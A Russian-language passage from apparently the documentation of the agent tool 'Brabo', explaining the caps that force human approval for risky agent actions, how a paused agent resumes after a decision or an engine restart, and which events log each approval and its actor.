результат остаётся `auto_approve` — файл не «голосует против» умолчанием.
Каждый этап может лишь повысить разрешительность предыдущего.

## Пределы {#caps}

Применяются **последними**, после всего остального:

| предел | эффект | почему |
|---|---|---|
| `git_merge` с целью в `dev`, `qa`, `rc` или `main` | `auto_approve` → `require_approval` | merge в защищённую ветку — всегда ваше решение ([RN-006](../business-rules.md#rn-006)) |
| `instruction_patch` | `auto_approve` → `require_approval` | вам нужно увидеть diff, прежде чем один агент изменит поведение другого ([RN-007](../business-rules.md#rn-007)) |
| `parallelize` и `raise_max_parallel` | `auto_approve` → `require_approval` | тратить на больше агентов — ваше решение; без этого предела лимит лида был бы декоративным, а поднятие собственного предела было бы продуктом, поднимающим собственный лимит расходов ([RN-086](../business-rules/custo.md#rn-086)) |
| `terminal` с git внешнего эффекта (push/PR/deploy) или `sudo`/`doas` | `auto_approve` → `require_approval` | git с внешним эффектом и привилегированные команды никогда не автоодобряются, даже при включённом «автоматическом режиме» ([RN-418](../business-rules.md#rn-418), пересматривает [RN-106](../business-rules/autenticacao.md#rn-106)) — см. отдельный раздел выше |
| типизированные `git_push` и `pr_open` | `auto_approve` → `require_approval` | тот же предел RN-418 через типизированную дверь: ни подстановочный знак автоматического режима, ни конкретное правило `agent_autonomy`, ни `permissions.json` их не повышают ([RN-689](../business-rules.md#rn-689)). `git_merge` сохраняет собственный предел (первая строка); `deploy` не является типом `proposed_action` |
| `container_remove` | `auto_approve` → `require_approval` | уничтожение контейнера вынуждает полное повторное развёртывание — тот же калибр, что и merge в защищённую ветку, решается каждый раз, никогда не настраивается раз и навсегда ([RN-495](../business-rules.md#rn-495)) |

Предел понижает `auto_approve` до `require_approval`; он **не** превращает
`deny` во что-то другое, потому что `deny` уже вернулся бы раньше.

:::note Почему `rc` остаётся в списке

Ступень `rc` ушла из политики веток
([ADR 0030](../adr/0030-politica-de-branches-mecanizada.md)), и bootstrap
перестал её создавать ([RN-029](../business-rules.md#rn-029)), — но она остаётся
здесь, в `domain/actions/protected-branches.ts`.

Этот список решает, что **отклоняет** блокировка merge, а в репозиториях,
развёрнутых предыдущими версиями Brabo, эта ветка ещё есть. Убрать её отсюда
ничего не убрало бы из чьего-либо репозитория: лишь сделало бы автоодобряемым
`git_merge` с целью `rc`, в ветку, которую кто-то может использовать как
продакшен.

Защитить несуществующую ветку ничего не стоит. Снять защиту с существующей —
дорого, и асимметрия намеренная.

:::

Разница между пределом и умолчанием: умолчание — это то, что происходит, когда
никто ничего не настроил; предел — то, что происходит **независимо** от того,
что настроено.

## Что происходит с агентом, пока решения нет

Действие `pending` — не просто строка, ожидающая нажатия: на другой стороне
стоит остановленный агент.

Когда вызванный им инструмент оказывается в ожидании, его цикл
**приостанавливается**, удерживая задачу, worktree и историю разговора, и он
переходит в `awaiting_approval`. Ваше решение выпускает `task.action_settled`,
которое его будит: реальный результат команды занимает место, где был бы ответ,
и цикл продолжается с того места, где остановился.

**Отказ тоже отвечает.** Причина занимает место результата, и агент узнаёт, что
этот путь закрыт, вместо того чтобы ждать вечно, — отказ не оставляет его
застрявшим.

Это важно для оператора: позднее одобрение не тратит впустую уже сделанную
работу, а очередь одобрения не асинхронна ради удобства — это буквально то,
чего ждёт агент. Раньше `pending` возвращался так, будто это ответ команды, и
агент сжигал предел итераций, пробуя что-то другое, пока задача не умирала без
единой написанной строки ([RN-073](../business-rules/custo.md#rn-073)).

**С одним исключением: перезапуск engine.** Приостановленный цикл живёт в
памяти, поэтому перезапуск роняет его вместе с собой. В этом случае задача
**не** остаётся в ожидании: она возвращается в очередь заблокированных, с
причиной и источником `infra` в event log, и решение, принятое после этого,
больше негде применить — решённое действие остаётся записанным, но ход, который
его ждал, больше не существует. Если вы одобрили и ничего не произошло, это
первое место, куда стоит посмотреть.

Автоодобрение здесь не проходит: оно выполняется при предложении, и результат
возвращается в том же ходе — в этом и ценность шаблонов из предыдущего
раздела.

**Dev Lead приостанавливается так же, с одним отличием при перезапуске**
(ADR 0086, [RN-284](../business-rules.md#rn-284)). Он разговорный, у него нет
ни worktree, ни задачи — приостанавливается синхронный `handle_call` хода,
через `agent.status: awaiting_approval`. В отличие от dev agent, у него НЕТ
очереди, куда вернуться при перезапуске engine: решение остаётся записанным и
видимым в Одобрениях, но Dev Lead не сообщает исход сам — процесс, который
ждал, умер, а следующий перезапуск поднимает новый Dev Lead без подписки на это
действие. Принятый и объявленный пробел, а не замаскированный.

## Что записывается при каждом решении

Каждое предложенное действие и каждое решение по нему становятся **доменным
событием** в `session_events`, с реальным актором
([RN-049](../business-rules/custo.md#rn-049)):

| событие | актор | когда |
|---|---|---|
| `proposed_action.created` | **агент**, который его предложил | всегда, до любого выполнения. `payload.status` говорит, как родилось действие: `pending`, `auto_approved` или `denied`; `payload.reason` говорит, какое правило `decide()` его произвело ([RN-567](../business-rules.md#rn-567)) |
| `proposed_action.approved` | **пользователь**, который нажал | только при ручном одобрении (включая `approve_always`) |
| `permission.granted` | **пользователь**, нажавший «всегда разрешать» | только когда нажатие действительно записало шаблон — `payload.patterns` (записанные шаблоны, по одному на сегмент, [RN-675](../business-rules.md#rn-675)) и `payload.pattern` (тот же список, объединённый через ", "), или `payload.agentId`/`actionType` для dev agent модуля ([RN-642](../business-rules.md#rn-642)) |
| `proposed_action.denied` | **пользователь**, который отклонил | с `payload.reason` |
| `action.executed` / `action.failed` | `system` | исход выполнения |

Отсюда единственный надёжный способ разделить две вещи, которые описывает этот
документ:

- **решение человека** = подсчёт событий `proposed_action.approved`;
- **решение политики** = `proposed_action.created` со `status:
  auto_approved` и актором-агентом. Оно никогда не производит `.approved` и
  поэтому никогда не путается с нажатием. Его `reason` говорит, **какое**
  правило автоодобрило — `agent_autonomy: auto_approve`, строка `allow` в
  `permissions.json`, нижняя граница контейнера, `escopo: cd dentro da pasta do
  projeto` — точным текстом, который использует `decide()`. События, записанные
  до [RN-567](../business-rules.md#rn-567), не имеют `reason`: читайте это как
  «не записано», а не как «никакого правила». Причина называет правило, а не
  корень области; начиная с [RN-609](../business-rules.md#rn-609) событие
  действия `terminal` несёт также `scopeRoot` — режим выполнения плюс
  ОТНОСИТЕЛЬНЫЙ идентификатор корня, с которым сравнивала область путей
  (`workspace_dir_name` в `container`/`runner`, сегмент ниже
  `BRABO_PROJECTS_BASE` в `mounted`), никогда абсолютный путь, который раскрыл
  бы `$HOME` пользователя каждому участнику. Строка outbox не несёт ни
  `reason`, ни `scopeRoot` — ни один потребитель engine их не читает. Начиная с
  [RN-614](../business-rules.md#rn-614) экран показывает оба, во фразе,
  собираемой одной функцией: в строке события в панели журнала сессии и в
  карточке одобрения (чат сессии и очередь вкладки Одобрения). Более старое
  событие говорит «не записано», и карточка говорит это, когда событие
  находится вне загруженных на этом экране событий.

Это не было правдой до Фазы 12e. Первые три строки шли **только в outbox**,
который является транспортом — дренируется, помечается `processed_at` и
обрезается, — а решение выживало лишь в `proposed_actions.decided_at`, колонке
вне timeline, которую читают экран, Психолог и Анамнез. Практическим
результатом было то, что на вопрос «сколько раз человек одобрил» нельзя было
ответить в dogfooding Фазы 10, а это была ровно главная метрика того
эксперимента.

Bootstrap репозитория — намеренное исключение: предлагаемые им изменения не
выпускают `proposed_action.created` в журнал, потому что уже описываются
`bootstrap.step_*` в той же сессии, — считать их снова раздуло бы метрику
одобрений работой, которую никто не одобрял.
